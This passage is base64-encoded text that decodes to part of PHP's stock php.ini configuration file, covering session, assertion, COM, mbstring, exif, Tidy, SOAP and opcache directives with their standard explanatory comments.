nNfc2lkX3RhZ3MgPSAiYT1ocmVmLGFyZWE9aHJlZixmcmFtZT1zcmMsZm9ybT0iCgo7IFVSTCByZXdyaXRlciBkb2VzIG5vdCByZXdyaXRlIGFic29sdXRlIFVSTHMgYnkgZGVmYXVsdC4KOyBUbyBlbmFibGUgcmV3cml0ZXMgZm9yIGFic29sdXRlIHBhdGhzLCB0YXJnZXQgaG9zdHMgbXVzdCBiZSBzcGVjaWZpZWQKOyBhdCBSVU5USU1FLiBpLmUuIHVzZSBpbmlfc2V0KCkKOyA8Zm9ybT4gdGFncyBpcyBzcGVjaWFsLiBQSFAgd2lsbCBjaGVjayBhY3Rpb24gYXR0cmlidXRlJ3MgVVJMIHJlZ2FyZGxlc3MKOyBvZiBzZXNzaW9uLnRyYW5zX3NpZF90YWdzIHNldHRpbmcuCjsgSWYgbm8gaG9zdCBpcyBkZWZpbmVkLCBIVFRQX0hPU1Qgd2lsbCBiZSB1c2VkIGZvciBhbGxvd2VkIGhvc3QuCjsgRXhhbXBsZSB2YWx1ZTogcGhwLm5ldCx3d3cucGhwLm5ldCx3aWtpLnBocC5uZXQKOyBVc2UgIiwiIGZvciBtdWx0aXBsZSBob3N0cy4gTm8gc3BhY2VzIGFyZSBhbGxvd2VkLgo7IERlZmF1bHQgVmFsdWU6ICIiCjsgRGV2ZWxvcG1lbnQgVmFsdWU6ICIiCjsgUHJvZHVjdGlvbiBWYWx1ZTogIiIKO3Nlc3Npb24udHJhbnNfc2lkX2hvc3RzPSIiCgo7IERlZmluZSBob3cgbWFueSBiaXRzIGFyZSBzdG9yZWQgaW4gZWFjaCBjaGFyYWN0ZXIgd2hlbiBjb252ZXJ0aW5nCjsgdGhlIGJpbmFyeSBoYXNoIGRhdGEgdG8gc29tZXRoaW5nIHJlYWRhYmxlLgo7IFBvc3NpYmxlIHZhbHVlczoKOyAgIDQgICg0IGJpdHM6IDAtOSwgYS1mKQo7ICAgNSAgKDUgYml0czogMC05LCBhLXYpCjsgICA2ICAoNiBiaXRzOiAwLTksIGEteiwgQS1aLCAiLSIsICIsIikKOyBEZWZhdWx0IFZhbHVlOiA0CjsgRGV2ZWxvcG1lbnQgVmFsdWU6IDUKOyBQcm9kdWN0aW9uIFZhbHVlOiA1CjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5oYXNoLWJpdHMtcGVyLWNoYXJhY3RlcgpzZXNzaW9uLnNpZF9iaXRzX3Blcl9jaGFyYWN0ZXIgPSA1Cgo7IEVuYWJsZSB1cGxvYWQgcHJvZ3Jlc3MgdHJhY2tpbmcgaW4gJF9TRVNTSU9OCjsgRGVmYXVsdCBWYWx1ZTogT24KOyBEZXZlbG9wbWVudCBWYWx1ZTogT24KOyBQcm9kdWN0aW9uIFZhbHVlOiBPbgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24udXBsb2FkLXByb2dyZXNzLmVuYWJsZWQKO3Nlc3Npb24udXBsb2FkX3Byb2dyZXNzLmVuYWJsZWQgPSBPbgoKOyBDbGVhbnVwIHRoZSBwcm9ncmVzcyBpbmZvcm1hdGlvbiBhcyBzb29uIGFzIGFsbCBQT1NUIGRhdGEgaGFzIGJlZW4gcmVhZAo7IChpLmUuIHVwbG9hZCBjb21wbGV0ZWQpLgo7IERlZmF1bHQgVmFsdWU6IE9uCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IE9uCjsgUHJvZHVjdGlvbiBWYWx1ZTogT24KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLnVwbG9hZC1wcm9ncmVzcy5jbGVhbnVwCjtzZXNzaW9uLnVwbG9hZF9wcm9ncmVzcy5jbGVhbnVwID0gT24KCjsgQSBwcmVmaXggdXNlZCBmb3IgdGhlIHVwbG9hZCBwcm9ncmVzcyBrZXkgaW4gJF9TRVNTSU9OCjsgRGVmYXVsdCBWYWx1ZTogInVwbG9hZF9wcm9ncmVzc18iCjsgRGV2ZWxvcG1lbnQgVmFsdWU6ICJ1cGxvYWRfcHJvZ3Jlc3NfIgo7IFByb2R1Y3Rpb24gVmFsdWU6ICJ1cGxvYWRfcHJvZ3Jlc3NfIgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24udXBsb2FkLXByb2dyZXNzLnByZWZpeAo7c2Vzc2lvbi51cGxvYWRfcHJvZ3Jlc3MucHJlZml4ID0gInVwbG9hZF9wcm9ncmVzc18iCgo7IFRoZSBpbmRleCBuYW1lIChjb25jYXRlbmF0ZWQgd2l0aCB0aGUgcHJlZml4KSBpbiAkX1NFU1NJT04KOyBjb250YWluaW5nIHRoZSB1cGxvYWQgcHJvZ3Jlc3MgaW5mb3JtYXRpb24KOyBEZWZhdWx0IFZhbHVlOiAiUEhQX1NFU1NJT05fVVBMT0FEX1BST0dSRVNTIgo7IERldmVsb3BtZW50IFZhbHVlOiAiUEhQX1NFU1NJT05fVVBMT0FEX1BST0dSRVNTIgo7IFByb2R1Y3Rpb24gVmFsdWU6ICJQSFBfU0VTU0lPTl9VUExPQURfUFJPR1JFU1MiCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi51cGxvYWQtcHJvZ3Jlc3MubmFtZQo7c2Vzc2lvbi51cGxvYWRfcHJvZ3Jlc3MubmFtZSA9ICJQSFBfU0VTU0lPTl9VUExPQURfUFJPR1JFU1MiCgo7IEhvdyBmcmVxdWVudGx5IHRoZSB1cGxvYWQgcHJvZ3Jlc3Mgc2hvdWxkIGJlIHVwZGF0ZWQuCjsgR2l2ZW4gZWl0aGVyIGluIHBlcmNlbnRhZ2VzIChwZXItZmlsZSksIG9yIGluIGJ5dGVzCjsgRGVmYXVsdCBWYWx1ZTogIjElIgo7IERldmVsb3BtZW50IFZhbHVlOiAiMSUiCjsgUHJvZHVjdGlvbiBWYWx1ZTogIjElIgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24udXBsb2FkLXByb2dyZXNzLmZyZXEKO3Nlc3Npb24udXBsb2FkX3Byb2dyZXNzLmZyZXEgPSAgIjElIgoKOyBUaGUgbWluaW11bSBkZWxheSBiZXR3ZWVuIHVwZGF0ZXMsIGluIHNlY29uZHMKOyBEZWZhdWx0IFZhbHVlOiAxCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IDEKOyBQcm9kdWN0aW9uIFZhbHVlOiAxCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi51cGxvYWQtcHJvZ3Jlc3MubWluLWZyZXEKO3Nlc3Npb24udXBsb2FkX3Byb2dyZXNzLm1pbl9mcmVxID0gIjEiCgo7IE9ubHkgd3JpdGUgc2Vzc2lvbiBkYXRhIHdoZW4gc2Vzc2lvbiBkYXRhIGlzIGNoYW5nZWQuIEVuYWJsZWQgYnkgZGVmYXVsdC4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmxhenktd3JpdGUKO3Nlc3Npb24ubGF6eV93cml0ZSA9IE9uCgpbQXNzZXJ0aW9uXQo7IFN3aXRjaCB3aGV0aGVyIHRvIGNvbXBpbGUgYXNzZXJ0aW9ucyBhdCBhbGwgKHRvIGhhdmUgbm8gb3ZlcmhlYWQgYXQgcnVuLXRpbWUpCjsgLTE6IERvIG5vdCBjb21waWxlIGF0IGFsbAo7ICAwOiBKdW1wIG92ZXIgYXNzZXJ0aW9uIGF0IHJ1bi10aW1lCjsgIDE6IEV4ZWN1dGUgYXNzZXJ0aW9ucwo7IENoYW5naW5nIGZyb20gb3IgdG8gYSBuZWdhdGl2ZSB2YWx1ZSBpcyBvbmx5IHBvc3NpYmxlIGluIHBocC5pbmkhIChGb3IgdHVybmluZyBhc3NlcnRpb25zIG9uIGFuZCBvZmYgYXQgcnVuLXRpbWUsIHNlZSBhc3NlcnQuYWN0aXZlLCB3aGVuIHplbmQuYXNzZXJ0aW9ucyA9IDEpCjsgRGVmYXVsdCBWYWx1ZTogMQo7IERldmVsb3BtZW50IFZhbHVlOiAxCjsgUHJvZHVjdGlvbiBWYWx1ZTogLTEKOyBodHRwOi8vcGhwLm5ldC96ZW5kLmFzc2VydGlvbnMKemVuZC5hc3NlcnRpb25zID0gLTEKCjsgQXNzZXJ0KGV4cHIpOyBhY3RpdmUgYnkgZGVmYXVsdC4KOyBodHRwOi8vcGhwLm5ldC9hc3NlcnQuYWN0aXZlCjthc3NlcnQuYWN0aXZlID0gT24KCjsgVGhyb3cgYW4gQXNzZXJ0aW9uRXJyb3Igb24gZmFpbGVkIGFzc2VydGlvbnMKOyBodHRwOi8vcGhwLm5ldC9hc3NlcnQuZXhjZXB0aW9uCjthc3NlcnQuZXhjZXB0aW9uID0gT24KCjsgSXNzdWUgYSBQSFAgd2FybmluZyBmb3IgZWFjaCBmYWlsZWQgYXNzZXJ0aW9uLiAoT3ZlcnJpZGRlbiBieSBhc3NlcnQuZXhjZXB0aW9uIGlmIGFjdGl2ZSkKOyBodHRwOi8vcGhwLm5ldC9hc3NlcnQud2FybmluZwo7YXNzZXJ0Lndhcm5pbmcgPSBPbgoKOyBEb24ndCBiYWlsIG91dCBieSBkZWZhdWx0Lgo7IGh0dHA6Ly9waHAubmV0L2Fzc2VydC5iYWlsCjthc3NlcnQuYmFpbCA9IE9mZgoKOyBVc2VyLWZ1bmN0aW9uIHRvIGJlIGNhbGxlZCBpZiBhbiBhc3NlcnRpb24gZmFpbHMuCjsgaHR0cDovL3BocC5uZXQvYXNzZXJ0LmNhbGxiYWNrCjthc3NlcnQuY2FsbGJhY2sgPSAwCgo7IEV2YWwgdGhlIGV4cHJlc3Npb24gd2l0aCBjdXJyZW50IGVycm9yX3JlcG9ydGluZygpLiAgU2V0IHRvIHRydWUgaWYgeW91IHdhbnQKOyBlcnJvcl9yZXBvcnRpbmcoMCkgYXJvdW5kIHRoZSBldmFsKCkuCjsgaHR0cDovL3BocC5uZXQvYXNzZXJ0LnF1aWV0LWV2YWwKO2Fzc2VydC5xdWlldF9ldmFsID0gMAoKW0NPTV0KOyBwYXRoIHRvIGEgZmlsZSBjb250YWluaW5nIEdVSURzLCBJSURzIG9yIGZpbGVuYW1lcyBvZiBmaWxlcyB3aXRoIFR5cGVMaWJzCjsgaHR0cDovL3BocC5uZXQvY29tLnR5cGVsaWItZmlsZQo7Y29tLnR5cGVsaWJfZmlsZSA9Cgo7IGFsbG93IERpc3RyaWJ1dGVkLUNPTSBjYWxscwo7IGh0dHA6Ly9waHAubmV0L2NvbS5hbGxvdy1kY29tCjtjb20uYWxsb3dfZGNvbSA9IHRydWUKCjsgYXV0b3JlZ2lzdGVyIGNvbnN0YW50cyBvZiBhIGNvbXBvbmVudCdzIHR5cGxpYiBvbiBjb21fbG9hZCgpCjsgaHR0cDovL3BocC5uZXQvY29tLmF1dG9yZWdpc3Rlci10eXBlbGliCjtjb20uYXV0b3JlZ2lzdGVyX3R5cGVsaWIgPSB0cnVlCgo7IHJlZ2lzdGVyIGNvbnN0YW50cyBjYXNlc2Vuc2l0aXZlCjsgaHR0cDovL3BocC5uZXQvY29tLmF1dG9yZWdpc3Rlci1jYXNlc2Vuc2l0aXZlCjtjb20uYXV0b3JlZ2lzdGVyX2Nhc2VzZW5zaXRpdmUgPSBmYWxzZQoKOyBzaG93IHdhcm5pbmdzIG9uIGR1cGxpY2F0ZSBjb25zdGFudCByZWdpc3RyYXRpb25zCjsgaHR0cDovL3BocC5uZXQvY29tLmF1dG9yZWdpc3Rlci12ZXJib3NlCjtjb20uYXV0b3JlZ2lzdGVyX3ZlcmJvc2UgPSB0cnVlCgo7IFRoZSBkZWZhdWx0IGNoYXJhY3RlciBzZXQgY29kZS1wYWdlIHRvIHVzZSB3aGVuIHBhc3Npbmcgc3RyaW5ncyB0byBhbmQgZnJvbSBDT00gb2JqZWN0cy4KOyBEZWZhdWx0OiBzeXN0ZW0gQU5TSSBjb2RlIHBhZ2UKO2NvbS5jb2RlX3BhZ2U9CgpbbWJzdHJpbmddCjsgbGFuZ3VhZ2UgZm9yIGludGVybmFsIGNoYXJhY3RlciByZXByZXNlbnRhdGlvbi4KOyBUaGlzIGFmZmVjdHMgbWJfc2VuZF9tYWlsKCkgYW5kIG1ic3RyaW5nLmRldGVjdF9vcmRlci4KOyBodHRwOi8vcGhwLm5ldC9tYnN0cmluZy5sYW5ndWFnZQo7bWJzdHJpbmcubGFuZ3VhZ2UgPSBKYXBhbmVzZQoKOyBVc2Ugb2YgdGhpcyBJTkkgZW50cnkgaXMgZGVwcmVjYXRlZCwgdXNlIGdsb2JhbCBpbnRlcm5hbF9lbmNvZGluZyBpbnN0ZWFkLgo7IGludGVybmFsL3NjcmlwdCBlbmNvZGluZy4KOyBTb21lIGVuY29kaW5nIGNhbm5vdCB3b3JrIGFzIGludGVybmFsIGVuY29kaW5nLiAoZS5nLiBTSklTLCBCSUc1LCBJU08tMjAyMi0qKQo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgb3IgaW50ZXJuYWxfZW5jb2Rpbmcgb3IgaWNvbnYuaW50ZXJuYWxfZW5jb2RpbmcgaXMgdXNlZC4KOyBUaGUgcHJlY2VkZW5jZSBpczogZGVmYXVsdF9jaGFyc2V0IDwgaW50ZXJuYWxfZW5jb2RpbmcgPCBpY29udi5pbnRlcm5hbF9lbmNvZGluZwo7bWJzdHJpbmcuaW50ZXJuYWxfZW5jb2RpbmcgPQoKOyBVc2Ugb2YgdGhpcyBJTkkgZW50cnkgaXMgZGVwcmVjYXRlZCwgdXNlIGdsb2JhbCBpbnB1dF9lbmNvZGluZyBpbnN0ZWFkLgo7IGh0dHAgaW5wdXQgZW5jb2RpbmcuCjsgbWJzdHJpbmcuZW5jb2RpbmdfdHJhbnNsYXRpb24gPSBPbiBpcyBuZWVkZWQgdG8gdXNlIHRoaXMgc2V0dGluZy4KOyBJZiBlbXB0eSwgZGVmYXVsdF9jaGFyc2V0IG9yIGlucHV0X2VuY29kaW5nIG9yIG1ic3RyaW5nLmlucHV0IGlzIHVzZWQuCjsgVGhlIHByZWNlZGVuY2UgaXM6IGRlZmF1bHRfY2hhcnNldCA8IGlucHV0X2VuY29kaW5nIDwgbWJzdGluZy5odHRwX2lucHV0CjsgaHR0cDovL3BocC5uZXQvbWJzdHJpbmcuaHR0cC1pbnB1dAo7bWJzdHJpbmcuaHR0cF9pbnB1dCA9Cgo7IFVzZSBvZiB0aGlzIElOSSBlbnRyeSBpcyBkZXByZWNhdGVkLCB1c2UgZ2xvYmFsIG91dHB1dF9lbmNvZGluZyBpbnN0ZWFkLgo7IGh0dHAgb3V0cHV0IGVuY29kaW5nLgo7IG1iX291dHB1dF9oYW5kbGVyIG11c3QgYmUgcmVnaXN0ZXJlZCBhcyBvdXRwdXQgYnVmZmVyIHRvIGZ1bmN0aW9uLgo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgb3Igb3V0cHV0X2VuY29kaW5nIG9yIG1ic3RyaW5nLmh0dHBfb3V0cHV0IGlzIHVzZWQuCjsgVGhlIHByZWNlZGVuY2UgaXM6IGRlZmF1bHRfY2hhcnNldCA8IG91dHB1dF9lbmNvZGluZyA8IG1ic3RyaW5nLmh0dHBfb3V0cHV0CjsgVG8gdXNlIGFuIG91dHB1dCBlbmNvZGluZyBjb252ZXJzaW9uLCBtYnN0cmluZydzIG91dHB1dCBoYW5kbGVyIG11c3QgYmUgc2V0Cjsgb3RoZXJ3aXNlIG91dHB1dCBlbmNvZGluZyBjb252ZXJzaW9uIGNhbm5vdCBiZSBwZXJmb3JtZWQuCjsgaHR0cDovL3BocC5uZXQvbWJzdHJpbmcuaHR0cC1vdXRwdXQKO21ic3RyaW5nLmh0dHBfb3V0cHV0ID0KCjsgZW5hYmxlIGF1dG9tYXRpYyBlbmNvZGluZyB0cmFuc2xhdGlvbiBhY2NvcmRpbmcgdG8KOyBtYnN0cmluZy5pbnRlcm5hbF9lbmNvZGluZyBzZXR0aW5nLiBJbnB1dCBjaGFycyBhcmUKOyBjb252ZXJ0ZWQgdG8gaW50ZXJuYWwgZW5jb2RpbmcgYnkgc2V0dGluZyB0aGlzIHRvIE9uLgo7IE5vdGU6IERvIF9ub3RfIHVzZSBhdXRvbWF0aWMgZW5jb2RpbmcgdHJhbnNsYXRpb24gZm9yCjsgICAgICAgcG9ydGFibGUgbGlicy9hcHBsaWNhdGlvbnMuCjsgaHR0cDovL3BocC5uZXQvbWJzdHJpbmcuZW5jb2RpbmctdHJhbnNsYXRpb24KO21ic3RyaW5nLmVuY29kaW5nX3RyYW5zbGF0aW9uID0gT2ZmCgo7IGF1dG9tYXRpYyBlbmNvZGluZyBkZXRlY3Rpb24gb3JkZXIuCjsgImF1dG8iIGRldGVjdCBvcmRlciBpcyBjaGFuZ2VkIGFjY29yZGluZyB0byBtYnN0cmluZy5sYW5ndWFnZQo7IGh0dHA6Ly9waHAubmV0L21ic3RyaW5nLmRldGVjdC1vcmRlcgo7bWJzdHJpbmcuZGV0ZWN0X29yZGVyID0gYXV0bwoKOyBzdWJzdGl0dXRlX2NoYXJhY3RlciB1c2VkIHdoZW4gY2hhcmFjdGVyIGNhbm5vdCBiZSBjb252ZXJ0ZWQKOyBvbmUgZnJvbSBhbm90aGVyCjsgaHR0cDovL3BocC5uZXQvbWJzdHJpbmcuc3Vic3RpdHV0ZS1jaGFyYWN0ZXIKO21ic3RyaW5nLnN1YnN0aXR1dGVfY2hhcmFjdGVyID0gbm9uZQoKOyBvdmVybG9hZChyZXBsYWNlKSBzaW5nbGUgYnl0ZSBmdW5jdGlvbnMgYnkgbWJzdHJpbmcgZnVuY3Rpb25zLgo7IG1haWwoKSwgZXJlZygpLCBldGMgYXJlIG92ZXJsb2FkZWQgYnkgbWJfc2VuZF9tYWlsKCksIG1iX2VyZWcoKSwKOyBldGMuIFBvc3NpYmxlIHZhbHVlcyBhcmUgMCwxLDIsNCBvciBjb21iaW5hdGlvbiBvZiB0aGVtLgo7IEZvciBleGFtcGxlLCA3IGZvciBvdmVybG9hZCBldmVyeXRoaW5nLgo7IDA6IE5vIG92ZXJsb2FkCjsgMTogT3ZlcmxvYWQgbWFpbCgpIGZ1bmN0aW9uCjsgMjogT3ZlcmxvYWQgc3RyKigpIGZ1bmN0aW9ucwo7IDQ6IE92ZXJsb2FkIGVyZWcqKCkgZnVuY3Rpb25zCjsgaHR0cDovL3BocC5uZXQvbWJzdHJpbmcuZnVuYy1vdmVybG9hZAo7bWJzdHJpbmcuZnVuY19vdmVybG9hZCA9IDAKCjsgZW5hYmxlIHN0cmljdCBlbmNvZGluZyBkZXRlY3Rpb24uCjsgRGVmYXVsdDogT2ZmCjttYnN0cmluZy5zdHJpY3RfZGV0ZWN0aW9uID0gT24KCjsgVGhpcyBkaXJlY3RpdmUgc3BlY2lmaWVzIHRoZSByZWdleCBwYXR0ZXJuIG9mIGNvbnRlbnQgdHlwZXMgZm9yIHdoaWNoIG1iX291dHB1dF9oYW5kbGVyKCkKOyBpcyBhY3RpdmF0ZWQuCjsgRGVmYXVsdDogbWJzdHJpbmcuaHR0cF9vdXRwdXRfY29udl9taW1ldHlwZT1eKHRleHQvfGFwcGxpY2F0aW9uL3hodG1sXCt4bWwpCjttYnN0cmluZy5odHRwX291dHB1dF9jb252X21pbWV0eXBlPQoKOyBUaGlzIGRpcmVjdGl2ZSBzcGVjaWZpZXMgbWF4aW11bSBzdGFjayBkZXB0aCBmb3IgbWJzdHJpbmcgcmVndWxhciBleHByZXNzaW9ucy4gSXQgaXMgc2ltaWxhcgo7IHRvIHRoZSBwY3JlLnJlY3Vyc2lvbl9saW1pdCBmb3IgUENSRS4KOyBEZWZhdWx0OiAxMDAwMDAKO21ic3RyaW5nLnJlZ2V4X3N0YWNrX2xpbWl0PTEwMDAwMAoKOyBUaGlzIGRpcmVjdGl2ZSBzcGVjaWZpZXMgbWF4aW11bSByZXRyeSBjb3VudCBmb3IgbWJzdHJpbmcgcmVndWxhciBleHByZXNzaW9ucy4gSXQgaXMgc2ltaWxhcgo7IHRvIHRoZSBwY3JlLmJhY2t0cmFja19saW1pdCBmb3IgUENSRS4KOyBEZWZhdWx0OiAxMDAwMDAwCjttYnN0cmluZy5yZWdleF9yZXRyeV9saW1pdD0xMDAwMDAwCgpbZ2RdCjsgVGVsbCB0aGUganBlZyBkZWNvZGUgdG8gaWdub3JlIHdhcm5pbmdzIGFuZCB0cnkgdG8gY3JlYXRlCjsgYSBnZCBpbWFnZS4gVGhlIHdhcm5pbmcgd2lsbCB0aGVuIGJlIGRpc3BsYXllZCBhcyBub3RpY2VzCjsgZGlzYWJsZWQgYnkgZGVmYXVsdAo7IGh0dHA6Ly9waHAubmV0L2dkLmpwZWctaWdub3JlLXdhcm5pbmcKO2dkLmpwZWdfaWdub3JlX3dhcm5pbmcgPSAxCgpbZXhpZl0KOyBFeGlmIFVOSUNPREUgdXNlciBjb21tZW50cyBhcmUgaGFuZGxlZCBhcyBVQ1MtMkJFL1VDUy0yTEUgYW5kIEpJUyBhcyBKSVMuCjsgV2l0aCBtYnN0cmluZyBzdXBwb3J0IHRoaXMgd2lsbCBhdXRvbWF0aWNhbGx5IGJlIGNvbnZlcnRlZCBpbnRvIHRoZSBlbmNvZGluZwo7IGdpdmVuIGJ5IGNvcnJlc3BvbmRpbmcgZW5jb2RlIHNldHRpbmcuIFdoZW4gZW1wdHkgbWJzdHJpbmcuaW50ZXJuYWxfZW5jb2RpbmcKOyBpcyB1c2VkLiBGb3IgdGhlIGRlY29kZSBzZXR0aW5ncyB5b3UgY2FuIGRpc3Rpbmd1aXNoIGJldHdlZW4gbW90b3JvbGEgYW5kCjsgaW50ZWwgYnl0ZSBvcmRlci4gQSBkZWNvZGUgc2V0dGluZyBjYW5ub3QgYmUgZW1wdHkuCjsgaHR0cDovL3BocC5uZXQvZXhpZi5lbmNvZGUtdW5pY29kZQo7ZXhpZi5lbmNvZGVfdW5pY29kZSA9IElTTy04ODU5LTE1Cgo7IGh0dHA6Ly9waHAubmV0L2V4aWYuZGVjb2RlLXVuaWNvZGUtbW90b3JvbGEKO2V4aWYuZGVjb2RlX3VuaWNvZGVfbW90b3JvbGEgPSBVQ1MtMkJFCgo7IGh0dHA6Ly9waHAubmV0L2V4aWYuZGVjb2RlLXVuaWNvZGUtaW50ZWwKO2V4aWYuZGVjb2RlX3VuaWNvZGVfaW50ZWwgICAgPSBVQ1MtMkxFCgo7IGh0dHA6Ly9waHAubmV0L2V4aWYuZW5jb2RlLWppcwo7ZXhpZi5lbmNvZGVfamlzID0KCjsgaHR0cDovL3BocC5uZXQvZXhpZi5kZWNvZGUtamlzLW1vdG9yb2xhCjtleGlmLmRlY29kZV9qaXNfbW90b3JvbGEgPSBKSVMKCjsgaHR0cDovL3BocC5uZXQvZXhpZi5kZWNvZGUtamlzLWludGVsCjtleGlmLmRlY29kZV9qaXNfaW50ZWwgICAgPSBKSVMKCltUaWR5XQo7IFRoZSBwYXRoIHRvIGEgZGVmYXVsdCB0aWR5IGNvbmZpZ3VyYXRpb24gZmlsZSB0byB1c2Ugd2hlbiB1c2luZyB0aWR5CjsgaHR0cDovL3BocC5uZXQvdGlkeS5kZWZhdWx0LWNvbmZpZwo7dGlkeS5kZWZhdWx0X2NvbmZpZyA9IC91c3IvbG9jYWwvbGliL3BocC9kZWZhdWx0LnRjZmcKCjsgU2hvdWxkIHRpZHkgY2xlYW4gYW5kIHJlcGFpciBvdXRwdXQgYXV0b21hdGljYWxseT8KOyBXQVJOSU5HOiBEbyBub3QgdXNlIHRoaXMgb3B0aW9uIGlmIHlvdSBhcmUgZ2VuZXJhdGluZyBub24taHRtbCBjb250ZW50Cjsgc3VjaCBhcyBkeW5hbWljIGltYWdlcwo7IGh0dHA6Ly9waHAubmV0L3RpZHkuY2xlYW4tb3V0cHV0CnRpZHkuY2xlYW5fb3V0cHV0ID0gT2ZmCgpbc29hcF0KOyBFbmFibGVzIG9yIGRpc2FibGVzIFdTREwgY2FjaGluZyBmZWF0dXJlLgo7IGh0dHA6Ly9waHAubmV0L3NvYXAud3NkbC1jYWNoZS1lbmFibGVkCnNvYXAud3NkbF9jYWNoZV9lbmFibGVkPTEKCjsgU2V0cyB0aGUgZGlyZWN0b3J5IG5hbWUgd2hlcmUgU09BUCBleHRlbnNpb24gd2lsbCBwdXQgY2FjaGUgZmlsZXMuCjsgaHR0cDovL3BocC5uZXQvc29hcC53c2RsLWNhY2hlLWRpcgpzb2FwLndzZGxfY2FjaGVfZGlyPSIvdG1wIgoKOyAodGltZSB0byBsaXZlKSBTZXRzIHRoZSBudW1iZXIgb2Ygc2Vjb25kIHdoaWxlIGNhY2hlZCBmaWxlIHdpbGwgYmUgdXNlZAo7IGluc3RlYWQgb2Ygb3JpZ2luYWwgb25lLgo7IGh0dHA6Ly9waHAubmV0L3NvYXAud3NkbC1jYWNoZS10dGwKc29hcC53c2RsX2NhY2hlX3R0bD04NjQwMAoKOyBTZXRzIHRoZSBzaXplIG9mIHRoZSBjYWNoZSBsaW1pdC4gKE1heC4gbnVtYmVyIG9mIFdTREwgZmlsZXMgdG8gY2FjaGUpCnNvYXAud3NkbF9jYWNoZV9saW1pdCA9IDUKCltzeXN2c2htXQo7IEEgZGVmYXVsdCBzaXplIG9mIHRoZSBzaGFyZWQgbWVtb3J5IHNlZ21lbnQKO3N5c3ZzaG0uaW5pdF9tZW0gPSAxMDAwMAoKW2xkYXBdCjsgU2V0cyB0aGUgbWF4aW11bSBudW1iZXIgb2Ygb3BlbiBsaW5rcyBvciAtMSBmb3IgdW5saW1pdGVkLgpsZGFwLm1heF9saW5rcyA9IC0xCgpbZGJhXQo7ZGJhLmRlZmF1bHRfaGFuZGxlcj0KCltvcGNhY2hlXQo7IERldGVybWluZXMgaWYgWmVuZCBPUENhY2hlIGlzIGVuYWJsZWQKO29wY2FjaGUuZW5hYmxlPTEKCjsgRGV0ZXJtaW5lcyBpZiBaZW5kIE9QQ2FjaGUgaXMgZW5hYmxlZCBmb3IgdGhlIENMSSB2ZXJzaW9uIG9mIFBIUAo7b3BjYWNoZS5lbmFibGVfY2xpPTAKCjsgVGhlIE9QY2FjaGUgc2hhcmVkIG1lbW9yeSBzdG9yYWdlIHNpemUuCjtvcGNhY2hlLm1lbW9yeV9jb25zdW1wdGlvbj0xMjgKCjsgVGhlIGFtb3VudCBvZiBtZW1vcnkgZm9yIGludGVybmVkIHN0cmluZ3MgaW4gTWJ5dGVzLgo7b3BjYWNoZS5pbnRlcm5lZF9zdHJpbmdzX2J1ZmZlcj04Cgo7IFRoZSBtYXhpbXVtIG51bWJlciBvZiBrZXlzIChzY3JpcHRzKSBpbiB0aGUgT1BjYWNoZSBoYXNoIHRhYmxlLgo7IE9ubHkgbnVtYmVycyBiZXR3ZWVuIDIwMCBhbmQgMTAwMDAwMCBhcmUgYWxsb3dlZC4KO29wY2FjaGUubWF4X2FjY2VsZXJhdGVkX2ZpbGVzPTEwMDAwCgo7IFRoZSBtYXhpbXVtIHBlcmNlbnRhZ2Ugb2YgIndhc3RlZCIgbWVtb3J5IHVudGlsIGEgcmVzdGFydCBpcyBzY2hlZHVsZWQuCjtvcGNhY2hlLm1heF93YXN0ZWRfcGVyY2VudGFnZT01Cgo7IFdoZW4gdGhpcyBkaXJlY3RpdmUgaXMgZW5hYmxlZCwgdGhlIE9QY2FjaGUgYXBwZW5kcyB0aGUgY3VycmVudCB3b3JraW5nCjsgZGlyZWN0b3J5IHRvIHRoZSBzY3JpcHQga2V5LCB0aHVzIGVsaW1pbmF0aW5nIHBvc3NpYmxlIGNvbGxpc2lvbnMgYmV0d2Vlbgo7IGZpbGVzIHdpdGggdGhlIHNhbWUgbmFtZSAoYmFzZW5hbWUpLiBEaXNhYmxpbmcgdGhlIGRpcmVjdGl2ZSBpbXByb3Zlcwo7IHBlcmZvcm1hbmNlLCBidXQgbWF5IGJyZWFrIGV4aXN0aW5nIGFwcGxpY2F0aW9ucy4KO29wY2FjaGUudXNlX2N3ZD0xCgo7IFdoZW4gZGlzYWJsZWQsIHlvdSBtdXN0IHJlc2V0IHRoZSBPUGNhY2hlIG1hbnVhbGx5IG9yIHJlc3RhcnQgdGhlCjsgd2Vic2VydmVyIGZvciBjaGFuZ2VzIHRvIHRoZSBmaWxlc3lzdGVtIHRvIHRha2UgZWZmZWN0Lgo7b3BjYWNoZS52YWxpZGF0ZV90aW1lc3RhbXBzPTEKCjsgSG93IG9mdGVuIChpbiBzZWNvbmRzKSB0byBjaGVjayBmaWxlIHRpbWVzdGFtcHMgZm9yIGNoYW5nZXMgdG8gdGhlIHNoYXJlZAo7IG1lbW9yeSBzdG9yYWdlIGFsbG9jYXRpb24uICgiMSIgbWVhbnMgdmFsaWRhdGUgb25jZSBwZXIgc2Vjb25kLCBidXQgb25seQo7IG9uY2UgcGVyIHJlcXVlc3QuICIwIiBtZWFucyBhbHdheXMgdmFsaWRhdGUpCjtvcGNhY2hlLnJldmFsaWRhdGVfZnJlcT0yCgo7IEVuYWJsZXMgb3IgZGlzYWJsZXMgZmlsZSBzZWFyY2ggaW4gaW5jbHVkZV9wYXRoIG9wdGltaXphdGlvbgo7b3BjYWNoZS5yZXZhbGlkYXRlX3BhdGg9MAoKOyBJZiBkaXNhYmxlZCwgYWxsIFBIUERvYyBjb21tZW50cyBhcmUgZHJvcHBlZCBmcm9tIHRoZSBjb2RlIHRvIHJlZHVjZSB0aGUKOyBzaXplIG9mIHRoZSBvcHRpbWl6ZWQgY29kZS4KO29wY2FjaGUuc2F2ZV9jb21tZW50cz0xCgo7IEFsbG93IGZpbGUgZXhpc3RlbmNlIG92ZXJyaWRlIChmaWxlX2V4aXN0cywgZXRjLikgcGVyZm9ybWFuY2UgZmVhdHVyZS4KO29wY2FjaGUuZW5hYmxlX2ZpbGVfb3ZlcnJpZGU9MAoKOyBBIGJpdG1hc2ssIH